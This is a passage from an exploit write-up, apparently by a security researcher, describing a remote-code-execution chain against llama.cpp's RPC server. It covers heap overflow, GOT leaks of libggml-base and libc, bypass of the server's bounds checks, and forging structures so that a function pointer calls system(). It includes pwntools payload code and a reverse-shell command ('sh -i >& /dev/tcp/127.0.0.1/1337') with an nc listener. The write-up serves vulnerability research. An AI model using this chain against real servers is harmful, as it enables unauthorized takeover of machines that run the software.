-

Fake `buffer->iface` structure method pointers to original DLL address to avoid any malfunction / unexpected corruption to the `buffer` structure, allowed us to explore the possibility of `buffer->context` pointer, allowing us to mess with `paradox-of-overflow`


-

Calculate the `got` address of a function loaded in the DLL.


Here the first ability is the leakage of `libggml-base.so` is most essential to us, since *(re-explaining and repeating) as we mentioned before, the sanitization / patches for previous exploitations are based on `buffer_get_context` and `buffer_get_size`, by manipulating the `buffer->context` pointer, we can bypass and re-establish the `read-what-wheres` and `write-what-wheres` previously we introduced, and by leaking the `ggml` library loaded `memcpy` got allowed us to to find the reference of this method to its standard library, and here, we are going construct our second leak.

>


If you wonder why we need to leak another library, the answer is in order for us to receive a reverse shell via the heap-overflow, where we don't have direct control over a `rwx` segment as we do in stack-overflows, the best way is to execute commands via `system()` and pass in command-stored address as an argument. Except when these `system()` class directly loaded in the DLL, or called previously in the program (Lazy binding). Otherwise, the only way for us to reference is via the standard DDLs such as `libc.so.6` *(By the way, I really don't like to say DLL since it really sounds like a thing that people say only when they are in context of Windows, however I considered it bit confusing to sat `libc` all the time since two DLL are mentioned in this write-up, so why not?)


### Leak No.2: Paradox-of-Overflow, GOT Tables.


Compared to our No.1 leak, Leak No.2 is comparably simpler. In order to leak the `libc.so.6` base address, the best way for us to do such is to break the *Paradox-of-Overflow we mentioned previously, it's easily solved since we have entire leaks on the `libggml-base` base address, the fake `buffer->context`, the final objective in our *Paradox-of-Overflow, can be easily manipulated without any effects on functioning pointers.


The key here is to use the `RPC` native `ggml_backend_cpu_buffer_get_tensor` to leak a `GOT` value that tells us about the `libc` base. By looking into the `ELF('lib-ggml.so')`'s `.got` reference, we can find our favorite `.got['memcpy']` - we chose `memcpy` not because it's our favorite, rather it has already been called previously, we can directly leak it's DLL address without `dl_runtime_resolve` and lazy-binding whatever;





To begin with, we will firstly construct a fake `ggml_backend_buffer` table *(The `buffer->iface` structure) using the known `ggml_base` address + known-fixed offset of the method, the only trick here is you can try to keep `free_buffer` as `NULL`, leave `buffer->size` the same as it was. `memcpy`'s `GOT` address can be calculated using the `ggml_begin` address + `ggml.got['cpy']`.

```
<code class="lang-python hljs language-python" data-highlighted="yes">    ggml = ELF('./libggml-base.so', checksec=False)
    payload = flat({
        248:[
            fake_ggml_backend_buffer_table(
                free_buffer = 0,
                get_base = ggml_base + get_base_offset,
                init_tensor = ggml_base + init_tensor_offset,
                memset_tensor = ggml_base + memset_tensor_offset,
                set_tensor = ggml_base + set_tensor_offset,
                get_tensor = ggml_base + get_tensor_offset,
                cpy_tensor = ggml_base + cpy_tensor_offset,
                clear = ggml_base + clear_offset,
                reset = ggml_base + reset_offset,
                buft = 0x0,
                context = ggml_begin + ggml.got['memcpy'] - 0x30,
                size = 0x110,
                usage = 0x0,
            ),
            p64(0x111)
        ]
    })
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


Notice here how we change the `buffer->context` pointer into `ggml.got['memcpy']-0x30`, **as we mentioned the `p0 = (size_t) ggml_backend_buffer_get_base(tensor->buffer)` is eventually just a wrapper for `buffer->context`, changing the `p0` will simply fail the entire `request.tensor.data + request.offset < p0, request.tensor.data + request.offset >= p0 + buffer->size` patch, that we should've mentioned in `ggml/src/ggml-rpc/ggml-rpc.cpp:924`. We left a `0x30` space is for context pointer to leave a little chunky room for `p0` examinations.


Now, all we have to do is to call `ggml_backend_cpu_buffer_get_tensor` on this manipulated `buffer` structure, because we left the beloved `free_buffer` as `NULL`, this `buffer` will never be freed, since we change the `buffer->context`, `RPC` sanitization will believe we are trying to read a legit `alloc_buffer` allocated context address, vomiting out the content of it:





The content of `memcpy[got]` leaked! *(since we specified the size of `ggml_backend_cpu_buffer_get_tensor`, only `0x8` bytes of data is being vommited, you can output as much as the `GOT` table you want, of-course). *(Here the `libc.so.6` mapped such a wide a range of address, `memcpy` is located in offset `0x1a12c0` of the `libc.so.6` base, we are pretty lucky that `libggml-base.so` have such small range that allows us to exploit partial writing.)


With the leak of `libc.so.6`, we should be able access the a considerable of method that can help us, such as `system()`, `execve()`, `syscall()`, `one_gadgets` that can leads to possible directly `bin/sh` connection. However, trying to remote-code execute on the server isn't as easy as how it seems like.


# Remote-Code Execution: New paradox, Structure-Oriented Programming?


Remote-Code Execution, even now the mitigations on the `write-what-wheres` / `read-what-wheres` bypassed, is still not an easy thing to achieve. Previous exploitation-al write-ups on `Llama.cpp` were created before the the mitigations implementation were implemented. This allowed them to arbitrary pass things into `buffer->iface` methods listen in the `RPC` server and changing the `buffer->iface` pointers will be enough for them to RCE.


However, we are dealing a much more harder *(or rather, secure) version of `Llama.cpp`, we can no longer mess with things that arbitrary since checks are implemented *everywhere. The past exploitation doesn't work anymore as `Llama.cpp` checks if the passed in `buffer` pointers belongs to the globally-managed `buffers`, passing in a external pointer will just set the pointer to `NULL`. At the meantime, you can't just manipulate the execution flow to `one_gadgets`, since we are not dealing with `CTFs` challenges that simple routes `stdin/stdout` to/from the `elf` - executing `/bin/sh` won't really does anything (*Probably suspend the process and that's all?). we will need to execute custom commands to establish shell connections.


Fortunately, past exploitation methodology on `NullPointerNoException` still works, we can call an arbitrary method, with manipulated `rdi` (first-parameter). But this still gave us a lot of limitations,


Most of time that we have control over the execution flow with a controllable argument, we will try to find a call wrapper *(that imitates another method with parameter related to argument For example, `ggml_backend_alloc_buffer` is a call-wrapper for `ggml_backend_buft_alloc_buffer(ggml_backend_get_default_buffer_type(backend), size)`)


Nevertheless, firstly, we say that we have control over the `rdi` , but we actually only have parts / selective controll over it, as we introduced the `buffers` examinations, the passed in `rdi` must be a globally-managed `buffer` structure stored in `buffers[]`, at the meantime, call-wrappers usually call-wraps the argument itself *(call another method, pass-in the original argument), it is *impossible to find these ideal call-wrappers that does something we will want in `ROPS`, such as cll `rdi+0x10`, then pass `rdi+0x20` as argument, *at least impossible in `libggml-base.so` and most DDLs `RPC` server loaded, that I went through the source-codes of.

>


Head-ups, we can't just edit the globally stored `buffers[]` - It's stored globally to begin with and we will need to leak it's address to modify it will the bypassed `write-what-wheres`, that's very sad


And the thing about `buffer` structures is, as much as it's controllable to us, **the first member, - `free_buffer` - the `buffer` stands for as a argument, is limited and not fully controllable to us as it's valid pointer address, or NULL, and most (*every) of time we try to call a `system()` for shell, that pointer will be pointing some address with data *(For example, the commands that we want to execute) that doesn't contains valid instruction while being not executable at all. *(It will be another story if we can find a actual `rwx` segment that we know the address of, but re-stating, that will be another totally different story)


This is what I noted during the exploitation:


-

`bin/sh` won't work at all, we are on a self-designed `rpc` socket system, not as these CTF contest that directly monitors on `stdout` / `stdin`


-

`rdi` must be a `buffer` address that's included in the global `buffers` list (managed during `alloc_buffer` / `free_buffer`), we can't fake a `buffer` structure


-

`buffers` is on somewhere we don't know, sadly you can't leak it


-

although we can control `buffer->iface`'s pointers, however, we must leave `buffer->iface->free_buffer` as `nullpt` / valid address to avoid crashes during the `backend_buffer_free` right after the overflow, we can't point `buffer->iface->free_buffer` to a data address that's not executable. *(This implicitly stands for the limitation we mentioned when parsing `buffer` as a argument, it means `buffer->iface->free_buffer` (the very first member of the `buffer` structure))


Therefore, for us to successful achieve RCE in such context with limitation, we will have to find a way that `RPC` somehow successfully interpreted the called method as a `buffer` based address, while another `buffer` based address as a argument, and neither of this can be `buffer`, since the first element is not-mess-around-able. And the best way for to do such, is via **Structure-Oriented Programming. And the final payload we got is seemly fascinating.


## Structure-Oriented Programming: World-of-Offsets, Four layers call-chain, Perspectives


To begin with, we must all heard of the operator, `'->'` in whether `cpp` / `c` *(not sure if this is a only `c` thing), if not, I wonder how it's possible for you that to read till here *(or you probably just jump to this section);


At the begin, I always through this is a member indicator to access class members, use such commonly in our OOP world. However, at a certain point in your life some special someone *(I hope this special someone is not me) will tell you that: **All member indicators are, eventually, just offset. When you will finally start to understand the truth of life and binary-exploitations, and unlock one of the best thing in binary-exploitation (except `gdbing`) - messing with structures, with that being said, **Structure-Oriented Programming.


Despite the fact that our argument are asked to be a `buffer` structure, which seemly impossible to exploit, but no-one says it must be interpreted as a `buffer` structure, and that's the key for us to construct the final-step - Remote-Code Executions. Even though we do-not have that much of control over `buffer`, we can try to interpret it to something else by the call-wrappers and result in unexpected results.


### `ggml_backend_t` && `ggml_backend_dev_t`:


`ggml_backend_t`, `ggml_backend_dev_t` is two structure we haven't mentioned at all before, in fact, `ggml_backend_dev_t` is included in the `ggml_backend_t` structure as `ggml_backend->type`

```
<code class="lang-cpp hljs language-cpp" data-highlighted="yes">    struct ggml_backend {
        ggml_guid_t guid;
        struct ggml_backend_i iface;
        ggml_backend_dev_t device;
        void * context;
    };

    struct ggml_backend_device {
        struct ggml_backend_device_i iface;
        ggml_backend_reg_t reg;
        void * context;
    };
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


>


A GGML backend is an abstraction layer that provides a unified interface for executing machine learning computations across different hardware devices (like CPU, GPU, or other accelerators). It handles all device-specific operations including memory management (allocation, transfers, and synchronization), computation execution (both synchronous and asynchronous), tensor operations, and event handling for synchronization between operations. Each backend implementation (such as CUDA, Metal, or Vulkan) follows a standard interface while providing device-specific optimizations, allowing the GGML framework to seamlessly work with different hardware while maintaining a consistent API, with automatic fallback to CPU if specialized hardware is unavailable.


For every `ggml_backend` thread, there a `ggml_backend` that manages this thread. Both the `ggml_backend` and `ggml_backend_device` have a `iface` table, similar to our `buffer` structure *(I didn't put it out since it would take up too much space). We don't particularly need to know that detailed regarding how `ggml_backend` / `ggml_backend_device` works as how we `buffer`, but it's essential for us to understand it's basic structure, which will be very essential.


You might wonder why we are mentioning it now; we never referenced this or saw this structure anywhere in this write-up. The reason why we bought this up is connected with our Structure-Oriented Programming journey.


### Perspectives, and interpretations


During the process of researching on usable `call-wrapper` regarding the limitations of our `rdi` being `buffer` structure constrained, nothing helpful was found at all, despite the entire `ggml_backend.c` / `ggml_backend.h` being reviewed. *(Pretty much all call-wrapper are useless whether it directly passed in a meaningless argument to a controllable `buffer->iface` pointer after internal logics, or the specified `buffer` offset is not controllable) This is very sad, however, as further the research goes, an interesting method that gave us a little hope of success pop out;

```
<code class="lang-cpp hljs language-cpp" data-highlighted="yes">size_t ggml_backend_get_alignment(ggml_backend_t backend) {
    return ggml_backend_buft_get_alignment(ggml_backend_get_default_buffer_type(backend));
}
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


Here, the `ggml_backend_get_alignment` is what we are talking about, now you might understand why I introduced the `backend` structure to you. However, it's still not certain since it only looks like a nested two call-wapper wrapper, taking a `ni` into the methods; Here this wrapper have three parts that we might be interested in: `ggml_backend_buft_get_alignment`,`ggml_backend_get_default_buffer_type`, and a internal `ggml_backend_get_default_buffer_type` method; For now, let's focus on the `ggml_backend_get_default_buffer_type` related implementations.

```
<code class="lang-c hljs language-c" data-highlighted="yes">ggml_backend_buffer_type_t ggml_backend_get_default_buffer_type(ggml_backend_t backend) {
    return ggml_backend_dev_buffer_type(backend->device);
}
ggml_backend_buffer_type_t ggml_backend_dev_buffer_type(ggml_backend_dev_t device) {
    return device->iface.get_buffer_type(device);
}
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


These is the most essential two lines of implementation in our structure-oriented programming section, the `ggml_backend_get_alignment` calls `ggml_backend_get_default_buffer_type` as the parameter for `ggml_backend_buft_get_alignment`, while passing the parameter `backend` into the parameter callee `ggml_backend_get_default_buffer_type`; And inside of `ggml_backend_get_default_buffer_type`, `ggml_backend_dev_buffer_type` is called as return value, with the passed `backend->device` as an argument, while `ggml_backend_dev_buffer_type` calls the `device->iface.get_buffer_type(device)` with the argument.


This sounds really confusing, but it will be much less complex reading the original call chain, and if I list all the final calls, and parameters for it, here is how it goes:


-

Called `ggml_backend_get_alignment`:


-

Calls `ggml_backend_buft_get_alignment`; Argument: `ggml_backend_get_default_buffer_type(backend)` *(Here we are ignoring this part)


-

Calls `ggml_backend_get_default_buffer_type`; Argument: `backend`


-

Calls `ggml_backend_dev_buffer_type`, Argument: `backend->device`


- Calls `device->iface.get_buffer_type` (`backend->device->iface.get_buffer_type`), Argument: `device` (`backend->device`)


How interesting is that, **This is a 4-layer nested call-chain, the `backend` parameter at the beginning is passed all the way down into the final method call `backend->device->iface.get_buffer_type`, while it's parameter is also a a backend member *(`device` (`backend->device`))!


Recall our introduction to the `backend` structure, the first member is `ggml_guid_t guid`, `typedef uint8_t ggml_guid[16]` - 16 sized `uint8_t`, this member is not called in the nested call-chain thus avoids us from messing with the partially-incontrollable `buffer->iface->free_buffer` pointer. The only manipulated member required is the `buffer->device` structure, luckily, at the meantime, the manipulation required pointer `buffer->device->iface->get_buffer_type` happens to be the 7th member of the `device` structure, this means possible data manipulation on `buffer->device` (first member of `buffer->device`) will not conflicts with out exploitation.


What this means is that, if the `buffer` structure with a is forged a with a `backend` structure with a validly-forged `device` included structure *(Importantly a proper forged `device->iface` structure) **we are able to call a manipulable pointer with a manipulated parameter.*; Where we call the `buffer->device->iface->get_buffer_type`, parameter as `buffer->device.


This requires a little bit of calculation of forging `backend`'s arrangement base on the original `buffer` (*this will still be based on overflowing `buffer` from `buffer->context`, thus not corrupting chunk header is still important). This can be easily achieved by observing the `backend` structure or payload-ing `pwntools`'s `cyclic()` to observe the structural arrange with `gdb`'s `p/x* (ggml_backend) address`:

```
<code class="lang-python hljs language-python" data-highlighted="yes">    payload = flat({
        0:[
            p64(0xdeadbeef),
            cmd,
        ],
        0x616161706161616f: [p64(system)],
        248:[
            fake_ggml_backend_buffer_table(
                free_buffer     = 0,
                get_base        = ggml_base + ggml_backend_get_alignment,
                init_tensor     = 0xdeadbeef,
                memset_tensor   = 0xdeadbeef,
                set_tensor      = 0xdeadbeef,
                get_tensor      = 0xdeadbeef,
                cpy_tensor      = 0xdeadbeef,
                clear           = 0xdeadbeef,
                reset           = 0xdeadbeef,
                buft            = 0xdeadbeef,
                context         = 0xdeadbeef,
                size            = 0x110,
                usage           = 0,
            ),
            p64(0x111),
            p64(manipulated_buffer_base_3+0x10),
        ]
    })
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


Converting the theoretical exploitation into reality needs an **extra bit of consideration and tricks; To begin with, we do not replace the original `buffer` structure yet, since we still depends on the `buffer->iface` pointer manipulations to redirect the execution-flow. *(At the meantime). **A trick in the exploitation here is we forge the `backend->device` structure in the `buffer->context` *(or you might call it base), and forging the `backend->device` pointer in the `backend` structure based on `buffer`. This in on hand enabled more rooms for us, on the other hand necessary as the `backend->device` will be dereferenced as a pointer. On the base of this, we set the begin of `buffer->context`, or the `backend->device` during re-interpretation, as the parameter stored at the deference address of `backend->device`, we then plants `buffer->device->iface->get_buffer_type` on it's offsets to the device structure, as this time to the `buffer->context` *(in other ways, it will be `(ggml_backend_buffer) buffer->context (ggml_backend) ->iface->get_buffer_type`):





This is what the memory layout should looks like, `buffer` based *(Even though it says `backend`, it's because this breakpoint is set on `ggml_backend_get_alignment` after the controll-flow hijack) that's being passed into using the same methodology from the hijacked `get_base`, this is all about leaving the original structure while allowing re-interpretations and messing with pointers and offsets. Here we manipulated `backend->device->iface->get_buffer_type` to `system()`, with the leaked `libc.so.6` address we got from leaking the `libggml-base.so` from partial writing, and manipulated `backend->device` pointer pointing to the `context` address where we wrote the specific argument for the manipulated, in this case, the command that we want to `system()` execute.


After finishing all these and heap arrangement / related-operations in `exp.py`, as the moment this `buffer`'s `get_base` is re-called, here, the final objective, remote specified code, will be executed in the `RPC` Server.

>


*Looking back into the exploitation process, with all the Paradox-of-Overflow, Paradox-of-Partial-Writing, and the structural constraints we encountered, we were still able to achieve aRemote Code Execution by leveraging techniques. Despite the stringent memory checks, custom heap management, and multiple mitigations implemented in Llama.cpp, we navigated through these challenges with careful analysis and creative problem-solving! From identifying the heap-overflow vector hidden in `ggml_backend_cpu_buffer_cpy_tensor` to exploiting the NullPointerNoException and finally deploying Structure-Oriented Programming, each step required a little bit of patience (as well as luck lol) and learnt a little bit, I am glad to made it here, and what a magical exploitation it is!


# Exploitation: The realistic implementations, and `exp.py`


Here is final version of the `exp.py` *(Since it takes up too much space, I decided not to put it here, it will be at gist), eventual you will have to covert these exploitation-al ideas to a realistic interaction with `llama.cpp`'s interaction. I will explain how each exploitation-al step is implemented. (Notice that the implementation of `RPC` Communication Protocols is deleted, I don't want spend space and time explain `llama.cpp` 's `RPC Protocols`, you should be able to figure that out yourself)


-

To begin with, before starting any exploitation-al process, we firstly allocates required `buffer` using the `alloc_buffer`, then retrieving each's `buffer->context` using the `get_base` `buffer->iface` method. Notice here how we arrange the size for each chunks to maximum the size of input (overflow payload). `written_buffer` is for the `src` of `cpy_tensor` operations, `manipulated_buffer` being the `cpy_tensor`'s `dst` of overflow. We are required to overflow 3 times during the exploitation (first time leaking `libggml-base.so`, second time leaking `libc.so.6` via mitigation bypass, last time overflowing to forge `backend` structures to use the call-wrappers). There's still parts of unreason behavior going on on the heap arrangement that we cannot explain of, for example, we must allocate three padding `buffer` after `manipulated_buffer_2` or `written_buffer_3` will be adjacent to two freed buffers despite we allocate new ones after, this will result us to not-able-to `set_tensor` the `written_buffer_3` for further exploitation, while we need to allocate a `buffer_list` thats from a deprecated previous failed exploitation, if I remove it arrangement just gone wrong *(This is weird and not yet explainable)


-

Then we partial-write the lowest two-bytes of the `buffer->iface->free_buffer` pointer to `ggml_backend_buffer_get_type` to leak `libggml-base.so` by leaking out the `buffer->buft` address that is located on the `libggml-base.so` `vmmap` address. Notice here how we manually construct the `src` tensor as partial-writing's special `ne[] / nb[]` calculations that we need to pay attentions to. We firstly set the payload to the `written_buffer_base` buffer, then call `cpy_tensor` to overflow the `dst` tensor with `src` tensor, this is also why we applied for a small size for the `manipulated_buffer_base`.


- `pwntools` native `io.recvn(0x18)` is used to receive a certain size of `socket` response, in this case, we will still have to align / bits-tranforms the received `libggml-base.so`:`ggml_backend_cpu_buffer_type` pointer. Furthermore, with the received `libc.so.6` pointer, we can calculate the reminding `buffer->iface` components's `DLL` address.


-

With the calculated `ggml_base` address based on partial-writing techniques, we are able to forge the `fake_ggml_backend_buffer_table` breaking the *paradox-of-overflow, we are faking `buffer->context` address to bypass past `p0/p1` mitigations on `get_tensor` boundary. We are leaking `ggml.got['memcpy']` to leak the `GOT` addresses and `libc.so.6` address. After the partial-writing exploitation, we doesn't need to aim for a specific `nbytes` size. However, we must make sure that `nbytes` will not be too big or it might unexpectedly overflow proceeding chunks.


-

With known `libggml-base.so` and `libc.so.6` address, we finally forge a `backend` `buffer` structure, that. is both interpretable as a `buffer` structure when manipulating the control flow to the `buffer->iface->get_base` call, while can be interpreted as `backend` structure; When we are calling for the `ggml_backend_get_alignment` call wrapper for the 3-layer-call-chain. Creating a structure of `buffer->iface->get_base = ggml_backend_get_alignment`, `backend->device = buffer->context`, `backend->device->iface->get_buffer_type = system()`, write the first-parameter of `jmp-ed` `system()` in `backend->device`


- `ggml_backend_get_default_buffer_type(backend)` will trigger `backend->device->iface->get_buffer_type` with parameter `backend->device`, in this case `buffer->context->iface->get_buffer_type (system)` with parameter `backend->device (the argument)`. In the exploitation we set up a reverse-shell command `sh -i >& /dev/tcp/127.0.0.1/1337 0>&1\x00`, creating a reverse-shell connection via `sh` on `127.0.0.1:1337`


-

Listen on `127.0.0.1:1337` with `nc -lvp 1337`, a reverse-shell connection will be received after the execution of the payload.





##
